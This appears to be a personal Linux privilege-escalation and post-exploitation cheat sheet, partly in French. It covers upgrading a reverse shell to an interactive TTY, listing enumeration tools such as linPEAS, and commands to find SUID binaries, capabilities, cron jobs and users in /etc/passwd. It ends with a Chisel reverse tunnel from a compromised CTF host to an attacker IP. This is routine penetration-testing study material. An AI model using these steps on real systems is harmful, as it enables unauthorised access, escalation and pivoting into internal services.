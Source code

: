 ## *update shell*
```
script /dev/null -c bash
^Z
stty raw -echo; fg
reset 
screen
```

```
python -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
^Z
stty raw -echo; fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<>  
```

## Automated script
```
linPEAS.sh
LinEnum.sh
linuxprivchecker.py
unix-privesc-check
Mestaploit: multi/recon/local_exploit_suggester

```
### GTFONow
https://github.com/Frissi0n/GTFONow
### lse
https://github.com/diego-treitos/linux-smart-enumeration
## _distrib info_
```
lsb_release -a
```

```
sudo -l
```
## _find SUID files_
```
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null

```
## _user's files_
```
find / -user admin -exec ls -ld {} \; 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```
## _users_ (display lines finished by sh)
```
cat /etc/passwd | grep sh$

```
## _ExploitCapability_
```
getcap -r / 2>/dev/null
```
## *con.d*
```
ls -la /etc/cron.d
```
## _ss_
```
ss -tunl
```
## _process_
```
ps auxww
```
## _search ps log_
```
./pspy
```
## Proxy_chain
redirect the request to my machine
```
export http_proxy=http://adresse_du_proxy:port_du_proxy
```
### Partage des ports de la cible sur ma machine
On utilise *Chisel* https://github.com/jpillora/chisel/releases/tag/v1.9.1
### creation du serveur proxi sur ma machine
└─# 
```
./chisel server -p 8000 --reverse
```

www-data@only4you:/tmp$
```
./chisel client 10.10.17.161:8000 R:127.0.0.1:3000 R:127.0.0.1:8001
```
